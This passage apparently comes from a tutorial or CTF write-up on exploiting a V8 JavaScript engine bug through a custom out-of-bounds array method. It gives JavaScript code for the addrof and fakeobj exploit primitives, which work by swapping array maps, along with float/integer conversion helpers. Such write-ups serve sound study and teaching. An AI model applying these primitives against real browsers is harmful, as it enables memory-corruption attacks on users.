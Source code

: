 In contrast, we can foo the V8 to treat an arbitrary float value as an object.

```
fl_arr.oob(map1);
let fakeobj = fl_arr[0]; // treat 1.1 in hex format as an address of object
console.log("[+] fakeobj: 0x" + ftoi(fakeobj).toString(16));
```

Therefore, we can get two basic exploit primitives: `addrof` and `fakeobj`.

```
var temp_obj = {"A":1};
var obj_arr = [temp_obj];
var fl_arr = [1.1, 1.2, 1.3, 1.4];
var map1 = obj_arr.oob();
var map2 = fl_arr.oob();

function addrof(in_obj) {
    obj_arr[0] = in_obj;    // First, put the obj whose address we want to find into index 0
    obj_arr.oob(map2);      // Change the obj array's map to the float array's map
    let addr = obj_arr[0];  // Get the address by accessing index 0
    obj_arr.oob(map1);      // Set the map back
    return ftoi(addr);      // Return the address as a BigInt
}

function fakeobj(addr) {
    fl_arr[0] = itof(addr);     // First, put the address as a float into index 0 of the float array
    fl_arr.oob(map1);           // Change the float array's map to the obj array's map
    let fake = fl_arr[0];       // Get a "fake" object at that memory location and store it
    fl_arr.oob(map2);           // Set the map back
    return fake;                // Return the object
}
```

Here is the helper functions:

```
/// Helper functions to convert between float and integer primitives
var buf = new ArrayBuffer(8); // 8 byte array buffer
var f64_buf = new Float64Array(buf);
var u64_buf = new Uint32Array(buf);

function ftoi(val) { // typeof(val) = float
    f64_buf[0] = val;
    return BigInt(u64_buf[0]) + (BigInt(u64_buf[1]) << 32n); // Watch for little endianness
}

function itof(val) { // typeof(val) = BigInt
    u64_buf[0] = Number(val & 0xffffffffn);
    u64_buf[1] = Number(val >> 32n);
    return f64_buf[0];
}
```
